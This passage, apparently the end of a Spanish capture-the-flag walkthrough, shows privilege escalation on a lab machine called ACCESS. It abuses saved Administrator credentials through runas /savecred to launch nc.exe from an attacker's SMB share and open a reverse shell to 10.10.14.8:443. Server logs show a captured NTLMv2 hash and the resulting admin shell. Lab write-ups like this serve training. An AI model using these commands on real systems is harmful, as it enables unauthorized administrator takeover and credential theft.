 ```bash
runas /savecred /user:ACCESS\Administrator "cmd /c \\10.10.14.8\smb\nc.exe -e cmd 10.10.14.8 443"
```
Lo ejcutamos
```bash
C:\>runas /savecred /user:ACCESS\Administrator "cmd /c \\10.10.14.8\smb\nc.exe -e cmd 10.10.14.8 443"
```
Nos llega la conexion al recurso compartido.
```bash
❯ smbserver.py smb $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.98,49191)
[*] AUTHENTICATE_MESSAGE (ACCESS\Administrator,ACCESS)
[*] User ACCESS\Administrator authenticated successfully
[*] Administrator::ACCESS:aaaaaaaaaaaaaaaa:11ba3a0598e2d4930add9f1b5c4f415a:0101000000000000001443a4c388d90127ecfb86a2fdd0f2000000000100100056006e007700650055004f0054004800020010004f0073005500690047006800520079000300100056006e007700650055004f0054004800040010004f00730055006900470068005200790007000800001443a4c388d90106000400020000000800300030000000000000000000000000300000c203ef37bf36cef78c4fa4a9a30c8bfc68948974626acf9a1248fe95157cbc440a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003800000000000000000000000000
[*] Connecting Share(1:smb)
[*] Incoming connection (10.10.10.98,49192)
[*] AUTHENTICATE_MESSAGE (\,ACCESS)
[*] User ACCESS\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:smb)
[-] Unknown level for query path info! 0xf
```
Por debajo nos llega la consola.
```bash
❯ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.98] 49193
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
access\administrator

C:\Windows\system32>
```
Gracias por leer!